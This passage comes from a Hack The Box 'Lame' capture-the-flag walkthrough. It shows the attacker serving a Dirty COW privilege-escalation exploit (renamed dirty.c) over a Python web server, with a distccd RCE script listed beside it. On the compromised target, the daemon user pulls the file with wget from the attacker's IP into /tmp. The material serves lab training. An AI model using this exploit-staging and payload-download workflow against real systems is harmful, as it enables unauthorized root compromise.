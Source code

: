 -----------------------------------------------------------------------
~/Documents/htb/lame » ls
40839.c  distccd\_rce\_CVE-2004-2687.py  nmap
-----------------------------------------------------------------------
~/Documents/htb/lame » mv 40839.c 
mv: missing destination file operand after '40839.c'
Try 'mv --help' for more information.
-----------------------------------------------------------------------
~/Documents/htb/lame » mv 40839.c dirty.c                                                                          
-----------------------------------------------------------------------
\*\*~/Documents/htb/lame » python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.3 - - \[12/Jan/2022 13:10:35\] "GET /dirty.c HTTP/1.0" 200 -
10.10.10.3 - - \[12/Jan/2022 13:11:09\] "GET /dirty.c HTTP/1.0" 200 -
^C
Keyboard interrupt received, exiting.
-----------------------------------------------------------------------
~/Documents/htb/lame »\*\*

You can see at the end of that code block that I opened a web server on my machine. This was to move the file over to the target machine, as we need to compile and run it there. This is the view from the target side. Remember to move into a directory that you can actually write to:

daemon@lame:/home/makis$ wget http://10.10.14.21:8000/dirty.c
wget http://10.10.14.21:8000/dirty.c
--13:10:52-- http://10.10.14.21:8000/dirty.c
           => \`dirty.c'
Connecting to 10.10.14.21:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4,814 (4.7K) \[text/x-csrc\]
dirty.c: Permission denied

Cannot write to \`dirty.c' (Permission denied).
daemon@lame:/home/makis$ cd /tmp
cd /tmp
daemon@lame:/tmp$ wget http://10.10.14.21:8000/dirty.c
wget http://10.10.14.21:8000/dirty.c

--13:11:20-- http://10.10.14.21:8000/dirty.c
           => \`dirty.c'
Connecting to 10.10.14.21:8000... connected.
HTTP request sent, awaiting response... 
200 OK
Length: 4,814 (4.7K) \[text/x-csrc\]

100%\[====================================>\] 4,814         --.--K/s             

13:11:32 (562.97 MB/s) - \`dirty.c' saved \[4814/4814\]

daemon@lame:/tmp$ 
daemon@lame:/tmp$ ls
ls
5564.jsvc\_up            distcc\_f67e1788.stdout  distccd\_f6241788.i
dirty.c                 distcc\_f7bc1788.stderr  distccd\_f63f1788.o
distcc\_dc0c1671.stdout  distccd\_dc451671.o      vgauthsvclog.txt.0
distcc\_dc231671.stderr  distccd\_dc501671.i      vmware-root
daemon@lame:/tmp$
